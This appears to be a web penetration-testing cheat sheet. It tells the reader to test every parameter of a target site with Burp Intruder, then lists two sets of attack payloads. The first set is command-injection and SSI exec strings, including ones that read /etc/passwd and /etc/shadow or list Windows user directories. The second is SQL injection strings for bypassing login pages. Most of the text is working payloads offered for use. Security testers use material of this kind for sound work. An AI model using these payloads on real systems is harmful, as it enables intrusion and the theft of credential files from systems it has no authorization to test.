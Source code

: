 ### Command Execution 
If found any parameters or input fields, we can try for command execution. Test Every parameters and input fields with these payload(Better to use burp suite intruder):
```
#For Linux
<!--#exec%20cmd="/bin/cat%20/etc/passwd"-->
<!--#exec%20cmd="/bin/cat%20/etc/shadow"-->
<!--#exec%20cmd="/usr/bin/id;-->
<!--#exec%20cmd="/usr/bin/id;-->
/index.html|id|
;id;
;id
;netstat -a;
;system('cat%20/etc/passwd')
;id;
|id
|/usr/bin/id
|id|
|/usr/bin/id|
#For Windows
| dir
; dir
$(dir)
& dir
&&dir
&& dir
| dir C:\
; dir C:\
& dir C:\
&& dir C:\
dir C:\
| dir C:\Documents and Settings*
; dir C:\Documents and Settings*
& dir C:\Documents and Settings*
&& dir C:\Documents and Settings*
dir C:\Documents and Settings*
| dir C:\Users
; dir C:\Users
```

### SQLi for Login Bypass 
If any login page found, should be tried to bypass password check. These payload copied from: https://github.com/payloadbox/sql-injection-payload-list
```
'-'
' '
'&'
'^'
'' ' or ''-' ' or '' ' ' or ''&' ' or ''^' ' or '''
"-"
" "
"&"
"^"
"" " or ""-" " or "" " " or ""&" " or ""^" " or """
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
```